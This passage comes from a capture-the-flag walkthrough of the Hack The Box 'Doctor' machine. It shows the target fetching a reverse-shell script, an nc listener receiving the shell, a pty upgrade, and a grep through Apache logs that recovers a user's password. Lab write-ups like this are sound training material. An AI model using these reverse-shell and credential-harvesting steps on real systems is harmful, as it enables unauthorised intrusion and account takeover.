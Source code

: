 On submitting the Post, we can see a hit on python server:

```shell
10.10.10.209 - - [14/Nov/2020 20:16:38] "GET /rev.bash HTTP/1.1" 200 -
```

And get a call back on our nc listener:

```shell
cfx:  ~/Documents/htb/doctor
→ nc -lvnp 8021
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::8021
Ncat: Listening on 0.0.0.0:8021
Ncat: Connection from 10.10.10.209.
Ncat: Connection from 10.10.10.209:55492.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
$ python3 -c "import pty;pty.spawn('/bin/bash')"
web@doctor:~$
```

## Elevating Priv: web -> shaun

### Enumeration

Inside home directory we discover another user named shaun:

```shell
web@doctor:/home$ ls -la
ls -la
total 16
drwxr-xr-x  4 root  root  4096 Sep 19 16:54 .
drwxr-xr-x 20 root  root  4096 Sep 15 12:51 ..
drwxr-xr-x  6 shaun shaun 4096 Sep 15 12:51 shaun
drwxr-xr-x  7 web   web   4096 Feb 14 16:47 web
```

`user.txt` is located inside shaun's home directory and is only readable by shaun.

Next we find, Web user is a member of `adm` group which allows us to read log files in `/var/log/` directory:

```shell
web@doctor:~$ id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
```

Going through the apache2 log files, we will grep for password where we discover a password `Guitar123`:

```shell
web@doctor:/var/log/apache2$ grep -r password
grep -r password
backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```
